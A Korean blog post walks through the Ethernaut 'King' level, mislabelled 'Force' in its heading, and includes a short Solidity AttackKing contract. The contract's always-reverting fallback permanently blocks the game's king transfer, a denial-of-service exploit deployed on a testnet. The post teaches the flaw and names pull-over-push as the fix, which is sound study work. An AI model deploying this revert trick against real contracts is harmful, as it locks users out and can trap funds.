



# 👋 Force
__Difficulty 6/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- 게임을 break 하기
- 즉 내가 왕이되고 누구도 왕이 될 수 없게 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract King {
    // address of king
    address payable king;
    // 
    uint public prize;
    // contract의 owner
    address payable public owner;

    // contructor
    constructor() public payable {
        // set deployer as owner
        owner = msg.sender;  
        // set deployer as king
        king = msg.sender;
        // set prize as msg.value <- deployer's value
        prize = msg.value;
    }

    // receive function to get Ether
    receive() external payable {
        // msg.value가 현재 prize 보다 크거나, msg.sender가 owner이면 진행
        require(msg.value >= prize || msg.sender == owner);
        // king에게 msg.value를 보낸다.
        king.transfer(msg.value);
        // king을 msg.sender로 변경
        king = msg.sender;
        // prize를 msg.value로 변경
        prize = msg.value;
    }

    // 누가 king인지 볼 수 있는 함수
    function _king() public view returns (address payable) {
        return king;
    }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 Force는 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.

## 풀이
이 문제에서 우리의 목표는 이 게임을 break하는 것이다. 즉 누구도 게임을 할 수 없게 만들면 된다.

위 코드는 내가 전에 공부했던 King of Ether이라는 contract와 비슷하다. 그렇기 때문에 조금 쉽게 해결 할 수 있었다. unexpected revert가 무엇인지 궁금하다면 아래 post를 클릭해 먼저 보고오자!
- [DOS with Unexpected Revert](https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/)

이 문제에서 중요하게 봐야할 점은 .transfer이다. 우리는 transfer을 사용해 Ether를 보낼 수 있다. 근데 만약 EOA가 아닌 CA에게 Ether를 보내는 것이라면 어떨까? 

CA는 receive함수를 설정하여 Ether를 받지 않고 revert 시킬 수 있다. 즉 만약 CA가 king이 되고 Ether를 받지 못하게 설정한다면 이제 누구도 게임을 진행 할 수 없게된다.

attackKing contract를 한번 보며 더 이해해보자!

```solidity
contract AttackKing {

    constructor() public payable {}
    
    // King을 attack하는 function
    function attackKing(address payable _king) public payable {
        // send a transaction to King contract
        _king.call{value: msg.value}("");
    }

    // revert when ether comes in or when no name function was called
    fallback() external {
        revert();
    }
}
```
위 코드를 Remix IDE에서 위 코드를 Rinkeby Network에 배포한다.

우리가 King contract에서 공격할 수 있는 부분은 receive() function 밖에 없다. receive의 require 부분을 보면 prize보다 크거나 msg.sender가 owner이어야 한다. 우리는 owner가 될 수 없으니 prize보다 더 큰 값을 보내면 된다. 

우선 console 창에서 공격에 필요한 정보를 얻어보자
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// fromWei를 사용해 현재 prize의 값을 가져온다.
web3.utils.fromWei(await contract.prize()) // 0.001 Ether
```
remix로 돌아와서 0.001 Ether 보다 큰 값을 attackKing contract에 보낸다. 그럼 contract의 address가 King이 되어있을 것이다. 그리고 다른 account를 생성해 transaction을 보내본다면 revert 되는 것을 확인 할 수 있다. 아래 그림은 transaction을 보낸 후 etherscan에서 확인한 사진이다.


이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

## Troubleshooting
나는 중간에 Gas Limit을 초과해 transcation이 계속해서 revert되는 것을 확인했다. 처음에는 무엇 때문인지 몰랐지만 etherscan에서 transaction을 확인한 후 알 수 있었다.



이후 transaction을 보낼때 gas limit을 높혀주니 transactino이 정상적으로 진행되었다.

## 마무리
전에 다뤘던 [DOS With Unexpected Revert 취약점](https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/)과 비슷했다. 위 게시글에서도 말했듯이 이 부분은 pull over push를 사용하여 문제를 해결 할 수 있다. ethernaut 시리즈가 끝나고 pull over push와 같은 방법론들도 다뤄보도록 하겠다!


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- DOS With Unexpected Revert 취약점: https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/

```toc

```